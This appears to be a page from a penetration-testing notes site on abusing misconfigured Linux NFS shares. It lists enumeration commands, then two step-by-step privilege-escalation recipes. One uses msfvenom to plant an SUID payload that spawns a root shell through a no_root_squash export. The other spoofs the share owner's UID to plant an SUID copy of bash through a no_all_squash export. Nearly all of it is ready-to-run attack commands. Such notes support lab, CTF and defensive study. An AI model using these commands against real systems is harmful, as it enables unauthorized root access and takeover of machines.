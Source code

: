 ```yaml
---
title: NFS Share
parent: Method (Linux)
layout: default
nav_order: 6
---
```


By default, access in share follows the UID and GID (except root which default root squash)

Show the mounts available: `showmount -e IP`

nmap command: `nmap –sV –script=nfs-showmount IP`

Mount: `mount -o rw,vers=2 target:share localdirectory`

`cat /etc/fstab` (to see any mount)


## no_root_squash
1. `cat /etc/fstab`
   (to see any mount)
2. Check on the victim machine for /etc/exports: `cat /etc/exports` and see if got no_root_squash
3. Confirm the share: `showmount -e IP`
4. Create a mountpoint and mount it:\
   `mkdir /tmp/nfs`\
   `mount -o rw, vers=2 IP:/sharepath /tmp/nfs`
5. On your Kali generate the payload and save it inside the share:\
   `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
6. Add executable by everyone and SUID bit so that can run as root:\
   `chmod +xs /tmp/nfs/shell.elf`
7. On the target machine execute the file to get root shell.

## no_all_squash
1. `cat /etc/fstab`
   (to see any mount)
2. Check on the victim machine for /etc/exports: `cat /etc/exports` and see if got no_all_squash (or lack of all_squash which also is equals to no_all_squash)
3. Confirm the share: `showmount -e IP`
4. Create a mountpoint and mount it:\
   `mkdir /tmp/nfs`\
   `mount -o rw, vers=2 IP:/sharepath /tmp/nfs`
5. Check `ls -la` to see what is the UID and GID of the share.
6. Add a user with same UID: `useradd username -u UID`, create a password for the user using `passwd username` to add a password and switch to the user using `su username`.
7. Copy `/bin/bash` to the share and set it with SUID bit:\
   `cp /bin/bash .`\
   `chmod 7777 bash`
8. On the target machine execute the bash file with parameter `-p` to run as that user.